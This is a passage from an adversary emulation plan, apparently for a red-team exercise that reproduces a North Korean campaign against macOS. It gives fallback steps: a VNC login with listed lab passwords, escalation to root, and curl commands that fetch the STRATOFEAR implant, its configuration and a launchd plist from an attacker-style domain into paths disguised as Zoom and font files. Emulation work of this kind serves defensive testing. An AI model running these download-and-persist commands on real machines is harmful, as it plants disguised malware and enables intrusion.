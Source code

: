   * Return to the emulation plan to task
    [FULLHOUSE.DOORED to set STRATOFEAR as executable](./ER6_DPRK_Scenario.md#step-2---persistence)

* If FULLHOUSE.DOORED **is not** available:

  * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate
  a VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
  `encryptpotter.net\ranrok`.

    | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |

  * Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```bash
    sudo su
    ```

    | Password |
    | -------- |
    | Ladylike-Laugh |

  * Execute curl to download the STRATOFEAR binary, configuration, and plist file:

    ```zsh
    curl --output "/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool" http://b0ring-t3min4l.kr/files/stratofear
    curl --output "/Library/Fonts/pingfang.ttf.md5" http://b0ring-t3min4l.kr/files/pingfang.ttf.md5
    curl --output "/Library/LaunchDaemons/us.zoom.ZoomHelperTool.plist" http://b0ring-t3min4l.kr/files/stratofear_launchd.plist
    ```

  * Check using Finder to see if the files were downloaded successfully.

  * Proceed with
  [FULLHOUSE.DOORED failed/unavailable to set STRATOFEAR as executable](./AlternativeSteps.md#fullhousedoored-failedunavailable-to-set-stratofear-as-executable)

### FULLHOUSE.DOORED failed/unavailable to set STRATOFEAR as executable

#### :biohazard: Tier 1 Procedures

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a
VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
`encryptpotter.net\ranrok`.
